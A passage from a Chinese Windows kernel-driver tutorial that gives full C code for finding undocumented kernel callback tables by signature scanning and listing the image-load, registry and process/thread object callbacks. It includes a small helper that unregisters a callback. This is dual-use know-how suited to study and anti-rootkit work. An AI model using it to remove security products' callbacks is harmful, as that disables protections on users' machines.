        pSpecialData[0] = 0x48;
        pSpecialData[1] = 0x8D;
        pSpecialData[2] = 0x0D;
        ulSpecialDataSize = 3;
    }

    // 根据特征码获取地址 获取 PspLoadImageNotifyRoutine 数组地址
    pPspLoadImageNotifyRoutineAddress = SearchPspLoadImageNotifyRoutine(pSpecialData, ulSpecialDataSize);
    DbgPrint("[LyShark] PspLoadImageNotifyRoutine = 0x%p \n", pPspLoadImageNotifyRoutineAddress);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

将这个驱动拖入到虚拟机中并运行，输出结果如下：



有了数组地址接下来就是要对数组进行解密，如何解密？

 - 1.首先拿到数组指针`pPspLoadImageNotifyRoutineAddress + sizeof(PVOID) * i`此处的i也就是下标。
 - 2.得到的新地址在与`pNotifyRoutineAddress & 0xfffffffffffffff8`进行与运算。
 - 3.最后`*(PVOID *)pNotifyRoutineAddress`取出里面的参数。

增加解密代码以后，这段程序的完整代码也就可以被写出来了，如下所示。
```c
#include <ntddk.h>
#include <windef.h>

// 指定内存区域的特征码扫描
PVOID SearchMemory(PVOID pStartAddress, PVOID pEndAddress, PUCHAR pMemoryData, ULONG ulMemoryDataSize)
{
    PVOID pAddress = NULL;
    PUCHAR i = NULL;
    ULONG m = 0;

    // 扫描内存
    for (i = (PUCHAR)pStartAddress; i < (PUCHAR)pEndAddress; i++)
    {
        // 判断特征码
        for (m = 0; m < ulMemoryDataSize; m++)
        {
            if (*(PUCHAR)(i + m) != pMemoryData[m])
            {
                break;
            }
        }
        // 判断是否找到符合特征码的地址
        if (m >= ulMemoryDataSize)
        {
            // 找到特征码位置, 获取紧接着特征码的下一地址
            pAddress = (PVOID)(i + ulMemoryDataSize);
            break;
        }
    }

    return pAddress;
}

// 根据特征码获取 PspLoadImageNotifyRoutine 数组地址
PVOID SearchPspLoadImageNotifyRoutine(PUCHAR pSpecialData, ULONG ulSpecialDataSize)
{
    UNICODE_STRING ustrFuncName;
    PVOID pAddress = NULL;
    LONG lOffset = 0;
    PVOID pPsSetLoadImageNotifyRoutine = NULL;
    PVOID pPspLoadImageNotifyRoutine = NULL;

    // 先获取 PsSetLoadImageNotifyRoutineEx 函数地址
    RtlInitUnicodeString(&ustrFuncName, L"PsSetLoadImageNotifyRoutineEx");
    pPsSetLoadImageNotifyRoutine = MmGetSystemRoutineAddress(&ustrFuncName);
    if (NULL == pPsSetLoadImageNotifyRoutine)
    {
        return pPspLoadImageNotifyRoutine;
    }

    // 查找 PspLoadImageNotifyRoutine  函数地址
    pAddress = SearchMemory(pPsSetLoadImageNotifyRoutine, (PVOID)((PUCHAR)pPsSetLoadImageNotifyRoutine + 0xFF), pSpecialData, ulSpecialDataSize);
    if (NULL == pAddress)
    {
        return pPspLoadImageNotifyRoutine;
    }

    // 先获取偏移, 再计算地址
    lOffset = *(PLONG)pAddress;
    pPspLoadImageNotifyRoutine = (PVOID)((PUCHAR)pAddress + sizeof(LONG) + lOffset);

    return pPspLoadImageNotifyRoutine;
}

// 移除回调
NTSTATUS RemoveNotifyRoutine(PVOID pNotifyRoutineAddress)
{
  NTSTATUS status = PsRemoveLoadImageNotifyRoutine((PLOAD_IMAGE_NOTIFY_ROUTINE)pNotifyRoutineAddress);
  return status;
}

VOID UnDriver(PDRIVER_OBJECT Driver)
{
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark.com \n");

    PVOID pPspLoadImageNotifyRoutineAddress = NULL;
    RTL_OSVERSIONINFOW osInfo = { 0 };
    UCHAR pSpecialData[50] = { 0 };
    ULONG ulSpecialDataSize = 0;

    // 获取系统版本信息, 判断系统版本
    RtlGetVersion(&osInfo);
    if (10 == osInfo.dwMajorVersion)
    {
        // 48 8d 0d 88 e8 db ff
        // 查找指令 lea rcx,[nt!PspLoadImageNotifyRoutine (fffff804`44313ce0)]
        /*
        nt!PsSetLoadImageNotifyRoutineEx+0x41:
        fffff801`80748a81 488d0dd8d3dbff  lea     rcx,[nt!PspLoadImageNotifyRoutine (fffff801`80505e60)]
        fffff801`80748a88 4533c0          xor     r8d,r8d
        fffff801`80748a8b 488d0cd9        lea     rcx,[rcx+rbx*8]
        fffff801`80748a8f 488bd7          mov     rdx,rdi
        fffff801`80748a92 e80584a3ff      call    nt!ExCompareExchangeCallBack (fffff801`80180e9c)
        fffff801`80748a97 84c0            test    al,al
        fffff801`80748a99 0f849f000000    je      nt!PsSetLoadImageNotifyRoutineEx+0xfe (fffff801`80748b3e)  Branch
        */
        pSpecialData[0] = 0x48;
        pSpecialData[1] = 0x8D;
        pSpecialData[2] = 0x0D;
        ulSpecialDataSize = 3;
    }

    // 根据特征码获取地址 获取 PspLoadImageNotifyRoutine 数组地址
    pPspLoadImageNotifyRoutineAddress = SearchPspLoadImageNotifyRoutine(pSpecialData, ulSpecialDataSize);
    DbgPrint("[LyShark] PspLoadImageNotifyRoutine = 0x%p \n", pPspLoadImageNotifyRoutineAddress);

    // 遍历回调
    ULONG i = 0;
    PVOID pNotifyRoutineAddress = NULL;

    // 获取 PspLoadImageNotifyRoutine 数组地址
    if (NULL == pPspLoadImageNotifyRoutineAddress)
    {
        return FALSE;
    }

    // 获取回调地址并解密
    for (i = 0; i < 64; i++)
    {
        pNotifyRoutineAddress = *(PVOID *)((PUCHAR)pPspLoadImageNotifyRoutineAddress + sizeof(PVOID) * i);
        pNotifyRoutineAddress = (PVOID)((ULONG64)pNotifyRoutineAddress & 0xfffffffffffffff8);
        if (MmIsAddressValid(pNotifyRoutineAddress))
        {
            pNotifyRoutineAddress = *(PVOID *)pNotifyRoutineAddress;
            DbgPrint("[LyShark] 序号: %d | 回调地址: 0x%p \n", i, pNotifyRoutineAddress);
        }
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行这段完整的程序代码，输出如下效果：



目前系统中只有两个回调，所以枚举出来的只有两条，打开ARK验证一下会发现完全正确，忽略`pyark`这是后期打开的。



### 6.8 内核枚举Registry注册表回调

在笔者上一篇文章`《内核枚举LoadImage映像回调》`中`LyShark`教大家实现了枚举系统回调中的`LoadImage`通知消息，本章将实现对`Registry`注册表通知消息的枚举，与`LoadImage`消息不同`Registry`消息不需要解密只要找到`CallbackListHead`消息回调链表头并解析为`_CM_NOTIFY_ENTRY`结构即可实现枚举。

Registry注册表回调是Windows操作系统提供的一种机制，它允许开发者在注册表发生变化时拦截并修改注册表的操作。Registry注册表回调是通过操作系统提供的注册表回调机制来实现的。

当应用程序或系统服务对注册表进行读写操作时，操作系统会触发注册表回调事件，然后在注册表回调事件中调用注册的Registry注册表回调函数。开发者可以在Registry注册表回调函数中执行自定义的逻辑，例如记录日志，过滤敏感数据，或者阻止某些操作。

Registry注册表回调可以通过操作系统提供的注册表回调函数CmRegisterCallback和CmUnRegisterCallback来进行注册和注销。同时，Registry注册表回调函数需要遵守一定的约束条件，例如不能在回调函数中对注册表进行修改，不能调用一些内核API函数等。

Registry注册表回调在安全软件、系统监控和调试工具等领域有着广泛的应用。

我们来看一款闭源ARK工具是如何实现的：



注册表系统回调的枚举需要通过特征码搜索来实现，首先我们可以定位到`uf CmUnRegisterCallback`内核函数上，在该内核函数下方存在一个`CallbackListHead`链表节点，取出这个链表地址。



当得到注册表链表入口`0xfffff8063a065bc0`直接将其解析为`_CM_NOTIFY_ENTRY`即可得到数据，如果要遍历下一个链表则只需要`ListEntryHead.Flink`向下移动指针即可。
```c
// 注册表回调函数结构体定义
typedef struct _CM_NOTIFY_ENTRY
{
  LIST_ENTRY  ListEntryHead;
  ULONG   UnKnown1;
  ULONG   UnKnown2;
  LARGE_INTEGER Cookie;
  PVOID   Context;
  PVOID   Function;
}CM_NOTIFY_ENTRY, *PCM_NOTIFY_ENTRY;
```
要想得到此处的链表地址，需要先通过`MmGetSystemRoutineAddress()`获取到`CmUnRegisterCallback`函数基址，然后在该函数起始位置向下搜索，找到这个链表节点，并将其后面的基地址取出来，在上一篇`《内核枚举LoadImage映像回调》`文章中已经介绍了定位方式此处跳过介绍，具体实现代码如下。
```c
#include <ntifs.h>
#include <windef.h>

// 指定内存区域的特征码扫描
PVOID SearchMemory(PVOID pStartAddress, PVOID pEndAddress, PUCHAR pMemoryData, ULONG ulMemoryDataSize)
{
    PVOID pAddress = NULL;
    PUCHAR i = NULL;
    ULONG m = 0;

    // 扫描内存
    for (i = (PUCHAR)pStartAddress; i < (PUCHAR)pEndAddress; i++)
    {
        // 判断特征码
        for (m = 0; m < ulMemoryDataSize; m++)
        {
            if (*(PUCHAR)(i + m) != pMemoryData[m])
            {
                break;
            }
        }
        // 判断是否找到符合特征码的地址
        if (m >= ulMemoryDataSize)
        {
            // 找到特征码位置, 获取紧接着特征码的下一地址
            pAddress = (PVOID)(i + ulMemoryDataSize);
            break;
        }
    }

    return pAddress;
}

// 根据特征码获取 CallbackListHead 链表地址
PVOID SearchCallbackListHead(PUCHAR pSpecialData, ULONG ulSpecialDataSize, LONG lSpecialOffset)
{
    UNICODE_STRING ustrFuncName;
    PVOID pAddress = NULL;
    LONG lOffset = 0;
    PVOID pCmUnRegisterCallback = NULL;
    PVOID pCallbackListHead = NULL;

    // 先获取 CmUnRegisterCallback 函数地址
    RtlInitUnicodeString(&ustrFuncName, L"CmUnRegisterCallback");
    pCmUnRegisterCallback = MmGetSystemRoutineAddress(&ustrFuncName);
    if (NULL == pCmUnRegisterCallback)
    {
        return pCallbackListHead;
    }

    // 查找 fffff806`3a4271b3 488d0d06eac3ff  lea     rcx,[nt!CallbackListHead (fffff806`3a065bc0)]
    /*
    lyshark.com>
        nt!CmUnRegisterCallback+0x6b:
        fffff806`3a4271ab 4533c0          xor     r8d,r8d
        fffff806`3a4271ae 488d542438      lea     rdx,[rsp+38h]
        fffff806`3a4271b3 488d0d06eac3ff  lea     rcx,[nt!CallbackListHead (fffff806`3a065bc0)]
        fffff806`3a4271ba e855e2e2ff      call    nt!CmListGetNextElement (fffff806`3a255414)
        fffff806`3a4271bf 488bf8          mov     rdi,rax
        fffff806`3a4271c2 4889442440      mov     qword ptr [rsp+40h],rax
        fffff806`3a4271c7 4885c0          test    rax,rax
        fffff806`3a4271ca 0f84c7000000    je      nt!CmUnRegisterCallback+0x157 (fffff806`3a427297)  Branch
    */
    pAddress = SearchMemory(pCmUnRegisterCallback, (PVOID)((PUCHAR)pCmUnRegisterCallback + 0xFF), pSpecialData, ulSpecialDataSize);
    if (NULL == pAddress)
    {
        return pCallbackListHead;
    }

    // 先获取偏移再计算地址
    lOffset = *(PLONG)((PUCHAR)pAddress + lSpecialOffset);
    pCallbackListHead = (PVOID)((PUCHAR)pAddress + lSpecialOffset + sizeof(LONG) + lOffset);

    return pCallbackListHead;
}


VOID UnDriver(PDRIVER_OBJECT Driver)
{
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    PVOID pCallbackListHeadAddress = NULL;
    RTL_OSVERSIONINFOW osInfo = { 0 };
    UCHAR pSpecialData[50] = { 0 };
    ULONG ulSpecialDataSize = 0;
    LONG lSpecialOffset = 0;

    DbgPrint("hello lyshark.com \n");

    // 查找 fffff806`3a4271b3 488d0d06eac3ff  lea     rcx,[nt!CallbackListHead (fffff806`3a065bc0)]
    /*
    lyshark.com>
    nt!CmUnRegisterCallback+0x6b:
    fffff806`3a4271ab 4533c0          xor     r8d,r8d
    fffff806`3a4271ae 488d542438      lea     rdx,[rsp+38h]
    fffff806`3a4271b3 488d0d06eac3ff  lea     rcx,[nt!CallbackListHead (fffff806`3a065bc0)]
    fffff806`3a4271ba e855e2e2ff      call    nt!CmListGetNextElement (fffff806`3a255414)
    fffff806`3a4271bf 488bf8          mov     rdi,rax
    fffff806`3a4271c2 4889442440      mov     qword ptr [rsp+40h],rax
    fffff806`3a4271c7 4885c0          test    rax,rax
    fffff806`3a4271ca 0f84c7000000    je      nt!CmUnRegisterCallback+0x157 (fffff806`3a427297)  Branch
    */
    pSpecialData[0] = 0x48;
    pSpecialData[1] = 0x8D;
    pSpecialData[2] = 0x0D;
    ulSpecialDataSize = 3;

    // 根据特征码获取地址
    pCallbackListHeadAddress = SearchCallbackListHead(pSpecialData, ulSpecialDataSize, lSpecialOffset);

    DbgPrint("[LyShark.com] CallbackListHead => %p \n", pCallbackListHeadAddress);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行这段代码，并可得到注册表回调入口地址，输出效果如下所示：



得到了注册表回调入口地址，接着直接循环遍历输出这个链表即可得到所有的注册表回调。
```c
#include <ntifs.h>
#include <windef.h>

// 指定内存区域的特征码扫描
PVOID SearchMemory(PVOID pStartAddress, PVOID pEndAddress, PUCHAR pMemoryData, ULONG ulMemoryDataSize)
{
    PVOID pAddress = NULL;
    PUCHAR i = NULL;
    ULONG m = 0;

    // 扫描内存
    for (i = (PUCHAR)pStartAddress; i < (PUCHAR)pEndAddress; i++)
    {
        // 判断特征码
        for (m = 0; m < ulMemoryDataSize; m++)
        {
            if (*(PUCHAR)(i + m) != pMemoryData[m])
            {
                break;
            }
        }
        // 判断是否找到符合特征码的地址
        if (m >= ulMemoryDataSize)
        {
            // 找到特征码位置, 获取紧接着特征码的下一地址
            pAddress = (PVOID)(i + ulMemoryDataSize);
            break;
        }
    }

    return pAddress;
}

// 根据特征码获取 CallbackListHead 链表地址
PVOID SearchCallbackListHead(PUCHAR pSpecialData, ULONG ulSpecialDataSize, LONG lSpecialOffset)
{
    UNICODE_STRING ustrFuncName;
    PVOID pAddress = NULL;
    LONG lOffset = 0;
    PVOID pCmUnRegisterCallback = NULL;
    PVOID pCallbackListHead = NULL;

    // 先获取 CmUnRegisterCallback 函数地址
    RtlInitUnicodeString(&ustrFuncName, L"CmUnRegisterCallback");
    pCmUnRegisterCallback = MmGetSystemRoutineAddress(&ustrFuncName);
    if (NULL == pCmUnRegisterCallback)
    {
        return pCallbackListHead;
    }

    // 查找 fffff806`3a4271b3 488d0d06eac3ff  lea     rcx,[nt!CallbackListHead (fffff806`3a065bc0)]
    /*
    lyshark.com>
        nt!CmUnRegisterCallback+0x6b:
        fffff806`3a4271ab 4533c0          xor     r8d,r8d
        fffff806`3a4271ae 488d542438      lea     rdx,[rsp+38h]
        fffff806`3a4271b3 488d0d06eac3ff  lea     rcx,[nt!CallbackListHead (fffff806`3a065bc0)]
        fffff806`3a4271ba e855e2e2ff      call    nt!CmListGetNextElement (fffff806`3a255414)
        fffff806`3a4271bf 488bf8          mov     rdi,rax
        fffff806`3a4271c2 4889442440      mov     qword ptr [rsp+40h],rax
        fffff806`3a4271c7 4885c0          test    rax,rax
        fffff806`3a4271ca 0f84c7000000    je      nt!CmUnRegisterCallback+0x157 (fffff806`3a427297)  Branch
    */
    pAddress = SearchMemory(pCmUnRegisterCallback, (PVOID)((PUCHAR)pCmUnRegisterCallback + 0xFF), pSpecialData, ulSpecialDataSize);
    if (NULL == pAddress)
    {
        return pCallbackListHead;
    }

    // 先获取偏移再计算地址
    lOffset = *(PLONG)((PUCHAR)pAddress + lSpecialOffset);
    pCallbackListHead = (PVOID)((PUCHAR)pAddress + lSpecialOffset + sizeof(LONG) + lOffset);

    return pCallbackListHead;
}

// 注册表回调函数结构体定义
typedef struct _CM_NOTIFY_ENTRY
{
    LIST_ENTRY  ListEntryHead;
    ULONG   UnKnown1;
    ULONG   UnKnown2;
    LARGE_INTEGER Cookie;
    PVOID   Context;
    PVOID   Function;
}CM_NOTIFY_ENTRY, *PCM_NOTIFY_ENTRY;

VOID UnDriver(PDRIVER_OBJECT Driver)
{
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    PVOID pCallbackListHeadAddress = NULL;
    RTL_OSVERSIONINFOW osInfo = { 0 };
    UCHAR pSpecialData[50] = { 0 };
    ULONG ulSpecialDataSize = 0;
    LONG lSpecialOffset = 0;

    DbgPrint("hello lyshark.com \n");

    // 查找 fffff806`3a4271b3 488d0d06eac3ff  lea     rcx,[nt!CallbackListHead (fffff806`3a065bc0)]
    /*
    lyshark.com>
    nt!CmUnRegisterCallback+0x6b:
    fffff806`3a4271ab 4533c0          xor     r8d,r8d
    fffff806`3a4271ae 488d542438      lea     rdx,[rsp+38h]
    fffff806`3a4271b3 488d0d06eac3ff  lea     rcx,[nt!CallbackListHead (fffff806`3a065bc0)]
    fffff806`3a4271ba e855e2e2ff      call    nt!CmListGetNextElement (fffff806`3a255414)
    fffff806`3a4271bf 488bf8          mov     rdi,rax
    fffff806`3a4271c2 4889442440      mov     qword ptr [rsp+40h],rax
    fffff806`3a4271c7 4885c0          test    rax,rax
    fffff806`3a4271ca 0f84c7000000    je      nt!CmUnRegisterCallback+0x157 (fffff806`3a427297)  Branch
    */
    pSpecialData[0] = 0x48;
    pSpecialData[1] = 0x8D;
    pSpecialData[2] = 0x0D;
    ulSpecialDataSize = 3;

    // 根据特征码获取地址
    pCallbackListHeadAddress = SearchCallbackListHead(pSpecialData, ulSpecialDataSize, lSpecialOffset);

    DbgPrint("[LyShark.com] CallbackListHead => %p \n", pCallbackListHeadAddress);

    // 遍历链表结构
    ULONG i = 0;
    PCM_NOTIFY_ENTRY pNotifyEntry = NULL;

    if (NULL == pCallbackListHeadAddress)
    {
        return FALSE;
    }

    // 开始遍历双向链表
    pNotifyEntry = (PCM_NOTIFY_ENTRY)pCallbackListHeadAddress;
    do
    {
        // 判断pNotifyEntry地址是否有效
        if (FALSE == MmIsAddressValid(pNotifyEntry))
        {
            break;
        }
        // 判断回调函数地址是否有效
        if (MmIsAddressValid(pNotifyEntry->Function))
        {
            DbgPrint("[LyShark.com] 回调函数地址: 0x%p | 回调函数Cookie: 0x%I64X \n", pNotifyEntry->Function, pNotifyEntry->Cookie.QuadPart);
        }

        // 获取下一链表
        pNotifyEntry = (PCM_NOTIFY_ENTRY)pNotifyEntry->ListEntryHead.Flink;

    } while (pCallbackListHeadAddress != (PVOID)pNotifyEntry);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

最终运行这个驱动程序，输出如下效果：



目前系统中有两个回调函数，这一点在第一张图片中也可以得到，枚举是正确的。


### 6.9 内核枚举进线程ObCall回调

在笔者上一篇文章`《内核枚举Registry注册表回调》`中我们通过特征码定位实现了对注册表回调的枚举，本篇文章`LyShark`将教大家如何枚举系统中的`ProcessObCall`进程回调以及`ThreadObCall`线程回调，之所以放在一起来讲解是因为这两中回调在枚举是都需要使用通用结构体`_OB_CALLBACK`以及`_OBJECT_TYPE`所以放在一起来讲解最好不过。

进程与线程ObCall回调是Windows操作系统提供的一种机制，它允许开发者在进程或线程发生创建、销毁、访问、修改等事件时拦截并处理这些事件。进程与线程ObCall回调是通过操作系统提供的回调机制来实现的。

当操作系统创建、销毁、访问或修改进程或线程时，它会触发进程与线程ObCall回调事件，然后在回调事件中调用注册的进程与线程ObCall回调函数。开发者可以在进程与线程ObCall回调函数中执行自定义的逻辑，例如记录日志，过滤敏感数据，或者阻止某些操作。

进程与线程ObCall回调可以通过操作系统提供的回调函数PsSetCreateProcessNotifyRoutine、PsSetCreateThreadNotifyRoutine、PsSetLoadImageNotifyRoutine等来进行注册。同时，进程与线程ObCall回调函数需要遵守一定的约束条件，例如不能阻塞或挂起进程或线程的创建或访问，不能调用一些内核API函数等。

进程与线程ObCall回调在安全软件、系统监控和调试工具等领域有着广泛的应用。

我们来看一款闭源ARK工具是如何实现的：



首先我们需要定义好结构体，结构体是微软公开的，如果有其它需要请自行去微软官方去查。
```c
typedef struct _OBJECT_TYPE_INITIALIZER
{
    USHORT Length;                // Uint2B
    UCHAR ObjectTypeFlags;            // UChar
    ULONG ObjectTypeCode;             // Uint4B
    ULONG InvalidAttributes;          // Uint4B
    GENERIC_MAPPING GenericMapping;   // _GENERIC_MAPPING
    ULONG ValidAccessMask;       // Uint4B
    ULONG RetainAccess;         // Uint4B
    POOL_TYPE PoolType;        // _POOL_TYPE
    ULONG DefaultPagedPoolCharge;  // Uint4B
    ULONG DefaultNonPagedPoolCharge; // Uint4B
    PVOID DumpProcedure;       // Ptr64     void
    PVOID OpenProcedure;      // Ptr64     long
    PVOID CloseProcedure;     // Ptr64     void
    PVOID DeleteProcedure;        // Ptr64     void
    PVOID ParseProcedure;     // Ptr64     long
    PVOID SecurityProcedure;      // Ptr64     long
    PVOID QueryNameProcedure;     // Ptr64     long
    PVOID OkayToCloseProcedure;     // Ptr64     unsigned char
    ULONG WaitObjectFlagMask;     // Uint4B
    USHORT WaitObjectFlagOffset;    // Uint2B
    USHORT WaitObjectPointerOffset;   // Uint2B
}OBJECT_TYPE_INITIALIZER, *POBJECT_TYPE_INITIALIZER;

typedef struct _OBJECT_TYPE
{
    LIST_ENTRY TypeList;           // _LIST_ENTRY
    UNICODE_STRING Name;         // _UNICODE_STRING
    PVOID DefaultObject;         // Ptr64 Void
    UCHAR Index;             // UChar
    ULONG TotalNumberOfObjects;      // Uint4B
    ULONG TotalNumberOfHandles;      // Uint4B
    ULONG HighWaterNumberOfObjects;    // Uint4B
    ULONG HighWaterNumberOfHandles;    // Uint4B
    OBJECT_TYPE_INITIALIZER TypeInfo;  // _OBJECT_TYPE_INITIALIZER
    EX_PUSH_LOCK TypeLock;         // _EX_PUSH_LOCK
    ULONG Key;                 // Uint4B
    LIST_ENTRY CallbackList;       // _LIST_ENTRY
}OBJECT_TYPE, *POBJECT_TYPE;

#pragma pack(1)
typedef struct _OB_CALLBACK
{
    LIST_ENTRY ListEntry;
    ULONGLONG Unknown;
    HANDLE ObHandle;
    PVOID ObTypeAddr;
    PVOID PreCall;
    PVOID PostCall;
}OB_CALLBACK, *POB_CALLBACK;
#pragma pack()
```
代码部分的实现很容易，由于进程与`线程句柄`的枚举很容易，直接通过`(POBJECT_TYPE)(*PsProcessType))->CallbackList`就可以拿到链表头结构，得到后将其解析为`POB_CALLBACK`并循环输出即可。
```c
#include <ntifs.h>
#include <wdm.h>
#include <ntddk.h>

typedef struct _OBJECT_TYPE_INITIALIZER
{
    USHORT Length;                // Uint2B
    UCHAR ObjectTypeFlags;            // UChar
    ULONG ObjectTypeCode;             // Uint4B
    ULONG InvalidAttributes;          // Uint4B
    GENERIC_MAPPING GenericMapping;   // _GENERIC_MAPPING
    ULONG ValidAccessMask;       // Uint4B
    ULONG RetainAccess;         // Uint4B
    POOL_TYPE PoolType;        // _POOL_TYPE
    ULONG DefaultPagedPoolCharge;  // Uint4B
    ULONG DefaultNonPagedPoolCharge; // Uint4B
    PVOID DumpProcedure;       // Ptr64     void
    PVOID OpenProcedure;      // Ptr64     long
    PVOID CloseProcedure;     // Ptr64     void
    PVOID DeleteProcedure;        // Ptr64     void
    PVOID ParseProcedure;     // Ptr64     long
    PVOID SecurityProcedure;      // Ptr64     long
    PVOID QueryNameProcedure;     // Ptr64     long
    PVOID OkayToCloseProcedure;     // Ptr64     unsigned char
    ULONG WaitObjectFlagMask;     // Uint4B
    USHORT WaitObjectFlagOffset;    // Uint2B
    USHORT WaitObjectPointerOffset;   // Uint2B
}OBJECT_TYPE_INITIALIZER, *POBJECT_TYPE_INITIALIZER;

typedef struct _OBJECT_TYPE
{
    LIST_ENTRY TypeList;           // _LIST_ENTRY
    UNICODE_STRING Name;         // _UNICODE_STRING
    PVOID DefaultObject;         // Ptr64 Void
    UCHAR Index;             // UChar
    ULONG TotalNumberOfObjects;      // Uint4B
    ULONG TotalNumberOfHandles;      // Uint4B
    ULONG HighWaterNumberOfObjects;    // Uint4B
    ULONG HighWaterNumberOfHandles;    // Uint4B
    OBJECT_TYPE_INITIALIZER TypeInfo;  // _OBJECT_TYPE_INITIALIZER
    EX_PUSH_LOCK TypeLock;         // _EX_PUSH_LOCK
    ULONG Key;                 // Uint4B
    LIST_ENTRY CallbackList;       // _LIST_ENTRY
}OBJECT_TYPE, *POBJECT_TYPE;

#pragma pack(1)
typedef struct _OB_CALLBACK
{
    LIST_ENTRY ListEntry;
    ULONGLONG Unknown;
    HANDLE ObHandle;
    PVOID ObTypeAddr;
    PVOID PreCall;
    PVOID PostCall;
}OB_CALLBACK, *POB_CALLBACK;
#pragma pack()

VOID DriverUnload(PDRIVER_OBJECT pDriverObject)
{
}

NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject, PUNICODE_STRING pRegPath)
{
    NTSTATUS status = STATUS_SUCCESS;

    DbgPrint("hello lyshark.com \n");

    POB_CALLBACK pObCallback = NULL;

    // 直接获取 CallbackList 链表
    LIST_ENTRY CallbackList = ((POBJECT_TYPE)(*PsProcessType))->CallbackList;

    // 开始遍历
    pObCallback = (POB_CALLBACK)CallbackList.Flink;
    do
    {
        if (FALSE == MmIsAddressValid(pObCallback))
        {
            break;
        }
        if (NULL != pObCallback->ObHandle)
        {
            // 显示
            DbgPrint("[LyShark.com] ObHandle = %p | PreCall = %p | PostCall = %p \n", pObCallback->ObHandle, pObCallback->PreCall, pObCallback->PostCall);

        }
        // 获取下一链表信息
        pObCallback = (POB_CALLBACK)pObCallback->ListEntry.Flink;

    } while (CallbackList.Flink != (PLIST_ENTRY)pObCallback);
    return status;
}
```

运行这段驱动程序，即可得到`进程句柄`回调:



当然了如上是`进程句柄`的枚举，如果是想要输出线程句柄，则只需要替换代码中的`PsProcessType`为`((POBJECT_TYPE)(*PsThreadType))->CallbackList`即可，修改后的代码如下。
```c
#include <ntifs.h>
#include <wdm.h>
#include <ntddk.h>

typedef struct _OBJECT_TYPE_INITIALIZER
{
    USHORT Length;                // Uint2B
    UCHAR ObjectTypeFlags;            // UChar
    ULONG ObjectTypeCode;             // Uint4B
    ULONG InvalidAttributes;          // Uint4B
    GENERIC_MAPPING GenericMapping;   // _GENERIC_MAPPING
    ULONG ValidAccessMask;       // Uint4B
    ULONG RetainAccess;         // Uint4B
    POOL_TYPE PoolType;        // _POOL_TYPE
    ULONG DefaultPagedPoolCharge;  // Uint4B
    ULONG DefaultNonPagedPoolCharge; // Uint4B
    PVOID DumpProcedure;       // Ptr64     void
    PVOID OpenProcedure;      // Ptr64     long
    PVOID CloseProcedure;     // Ptr64     void
    PVOID DeleteProcedure;        // Ptr64     void
    PVOID ParseProcedure;     // Ptr64     long
    PVOID SecurityProcedure;      // Ptr64     long
    PVOID QueryNameProcedure;     // Ptr64     long
    PVOID OkayToCloseProcedure;     // Ptr64     unsigned char
    ULONG WaitObjectFlagMask;     // Uint4B
    USHORT WaitObjectFlagOffset;    // Uint2B
    USHORT WaitObjectPointerOffset;   // Uint2B
}OBJECT_TYPE_INITIALIZER, *POBJECT_TYPE_INITIALIZER;

typedef struct _OBJECT_TYPE
{
    LIST_ENTRY TypeList;           // _LIST_ENTRY
    UNICODE_STRING Name;         // _UNICODE_STRING
    PVOID DefaultObject;         // Ptr64 Void
    UCHAR Index;             // UChar
    ULONG TotalNumberOfObjects;      // Uint4B
    ULONG TotalNumberOfHandles;      // Uint4B
    ULONG HighWaterNumberOfObjects;    // Uint4B
    ULONG HighWaterNumberOfHandles;    // Uint4B
    OBJECT_TYPE_INITIALIZER TypeInfo;  // _OBJECT_TYPE_INITIALIZER
    EX_PUSH_LOCK TypeLock;         // _EX_PUSH_LOCK
    ULONG Key;                 // Uint4B
    LIST_ENTRY CallbackList;       // _LIST_ENTRY
}OBJECT_TYPE, *POBJECT_TYPE;

#pragma pack(1)
typedef struct _OB_CALLBACK
{
    LIST_ENTRY ListEntry;
    ULONGLONG Unknown;
    HANDLE ObHandle;
    PVOID ObTypeAddr;
    PVOID PreCall;
    PVOID PostCall;
}OB_CALLBACK, *POB_CALLBACK;
#pragma pack()

VOID DriverUnload(PDRIVER_OBJECT pDriverObject)
{
}

NTSTATUS DriverEntry(PDRIVER_OBJECT pDriverObject, PUNICODE_STRING pRegPath)
{
    NTSTATUS status = STATUS_SUCCESS;

    DbgPrint("hello lyshark.com \n");

    POB_CALLBACK pObCallback = NULL;

    // 直接获取 CallbackList 链表
    LIST_ENTRY CallbackList = ((POBJECT_TYPE)(*PsThreadType))->CallbackList;

    // 开始遍历
    pObCallback = (POB_CALLBACK)CallbackList.Flink;
    do
    {
        if (FALSE == MmIsAddressValid(pObCallback))
        {
            break;
        }
        if (NULL != pObCallback->ObHandle)
        {
            // 显示
            DbgPrint("[LyShark] ObHandle = %p | PreCall = %p | PostCall = %p \n", pObCallback->ObHandle, pObCallback->PreCall, pObCallback->PostCall);
        }
        // 获取下一链表信息
        pObCallback = (POB_CALLBACK)pObCallback->ListEntry.Flink;

    } while (CallbackList.Flink != (PLIST_ENTRY)pObCallback);

    return status;
}
```

运行这段驱动程序，即可得到`线程句柄`回调:



## 第七篇：内核监控技术

本章是关于内核监控技术的高级应用。了解内核枚举篇的知识点是本章的前提。本章主要介绍如何在内核中注册并监控各种对象，包括进程、线程、驱动、注册表和文件等。通过监控这些对象的相关操作，可以实现对系统的更加细致的监控和保护。

本章主要包括以下几个章节：

首先介绍如何在内核中注册并监控进程和线程的回调函数。这些回调函数可以用于监视进程和线程的创建、销毁等操作，以及对进程和线程的各种操作进行过滤和处理。

接着介绍如何注册并监控各种对象回调，包括注册表回调、文件回调等。通过监控这些回调，可以实现对系统中对象的读写操作进行监控，以及对某些操作进行拦截和处理。

本章还介绍了如何使用LoadImage映像回调监视驱动加载事件，并展示如何通过屏蔽驱动来保护系统。

最后，本章讨论了如何在内核中实现无痕监控技术，以及如何通过检测和处理异常情况来提高系统的安全性和稳定性。

### 7.1 内核监控进程与线程回调

